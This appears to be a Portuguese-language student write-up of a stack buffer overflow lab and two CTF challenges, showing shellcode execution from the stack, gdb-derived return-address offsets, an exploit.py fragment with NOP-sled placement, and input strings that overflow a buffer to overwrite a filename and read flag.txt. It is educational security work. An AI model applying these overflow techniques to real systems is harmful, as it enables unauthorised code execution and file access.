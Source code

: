 # Trabalho realizado na Semana #4

## Tarefa 1

No programa `call_shellcode.d`, é criada uma função func e é colocado no seu endereço de memória um código binário que abre uma shell. 

```c
char code[500];
strcpy(code, shellcode); // Copy the shellcode to the stack
int (*func)() = (int(*)())code;
func(); // Invoke the shellcode from the stack
```

Utilizando o ficheiro `Make` fornecido, são criados dois binários: `a32.out` e `a64.out`. Executando qualquer um destes podemos observar que é aberta uma shell. Isto acontece porque o programa chama a função `func`. No seu endereço de memória está o programa binário, sendo este o código executado.

## Tarefa 2

Nesta tarefa o objetivo é transformar o programa, cedendo-lhe permissões root e transformando-o num programa Set-UID.


## Tarefa 3

O primeiro objetivo do debugging é descobrir qual o endereço de retorno, e a posição inicial do buffer:

```bash
$ p $ebp
$1 = (void *) 0xffffcb68

$ p &buffer
$2 = (char (*)[100]) 0xffffcafc

```

Sabendo que o início da posição do buffer é o valor de $2 e a posição do valor de retorno é dado pelo ebp $1, podemos calcular o offset subtraindo os endereços $1- $2, obtendo assim o valor 108. Como o shellcode é de 32 bits, adicionámos também 4 bytes ao offset.


Pretendedo que a função de retorno aponte para baixo do ebp, tentamos encontrar um novo endereço de retorno somando vários valores ao mesmo. Sabendo isto, colocámos o start (início do shellcode) no fim do ficheiro calculando : `start = 517 - len(shellcode)`. Assim, como entre a posição do return e o início do shellcode, o ficheiro terá instruções 0x90, sabemos que eventualmente será executado o código deste último.

Após algumas tentivas, descobrimos que somando 200 ao valor inicial do ebp, o nosso ataque executa com sucesso:

![title](screenshots/5_1.png)

Assim o nosso ficheiro *exploit.py* fica com os seguintes valores:

```py
# Decide the return address value and put it somewhere in the payload

start = 517 - len(shellcode)            
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb68         # hex (ebp +200)
offset = 108 + 4                      

```

Aplicando o mesmo raciocínio conseguimos efetuar o mesmo ataque para uma stack de tamanho diferente.

![title](screenshots/5_1_2.png)

# CTF Semana 5

## Desafio 1

Ao observar o ficherio `main.c` identificamos a seguinte vulnerabilidade: O buffer alocado para guardar o input tem 20 bytes, no entanto, a função `scanf` está a aceitar 28 bytes. A variável `meme_file` está localizada a seguir ao `buffer`. Quer isto dizer que o que for escrito nos extra 8 bytes do input será colocado em `meme_file`. Isto é um problema porque esta variável dita que ficheiro irá ser aberto. Podemos assim alterá-la para abrir o ficheiro `flag.txt`.

```python
s = b""
for i in range(20):
	s += b"a"
s += b"flag.txt\0"
```

Ao executar o programa com input `s`, este abre o ficheiro `flag.txt` e imprime os seus conteúdos, revelando a flag.

## Desafio 2

Neste novo programa foi introduzido um novo campo de verificação, `val`. Está localizado em memória entre `meme_file` e `buffer`. Quer isto dizer que para reescrever o `meme_file` com a mesma técnica utilizada anteriormente será necessário reescrever também em `val`. Não será problema uma vez que o `scanf` aceita agora 32 bytes e val tem apenas 4 de tamanho.

```python
s = b""
for i in range(20):
	s += b"a"
s += bytes.fromhex('2322fcfe')
s += b"flag.txt\0"
```

Desta vez colocamos também na string os 4 bytes extra necessários para o programa proceder à abertura do ficheiro. Mais uma vez, o programa abre o ficheiro `flag.txt` e revela a flag.
